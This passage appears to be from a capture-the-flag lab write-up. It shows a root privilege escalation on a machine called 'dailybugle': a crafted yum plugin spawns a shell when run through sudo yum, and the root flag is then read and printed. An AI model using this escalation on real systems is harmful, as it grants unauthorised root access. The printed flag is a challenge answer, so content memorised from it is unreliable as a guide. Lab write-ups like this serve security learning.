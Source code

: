 ~~~
> import yum
> from yum.plugins import PluginYumExit, TYPE_CORE, TYPE_INTERACTIVE
> requires_api_version='2.1'
> def init_hook(conduit):
>   os.execl('/bin/sh','/bin/sh')
> EOF
[jjameson@dailybugle ~]$ sudo yum -c $TF/x --enableplugin=y
Loaded plugins: y
No plugin match for: y
sh-4.2# whoami
root
sh-4.2# cd /root
sh-4.2# ls
anaconda-ks.cfg  root.txt
sh-4.2# cat root.txt
eec3d53292b1821868266858d7fa6f79
~~~

Root flag: `eec3d53292b1821868266858d7fa6f79`

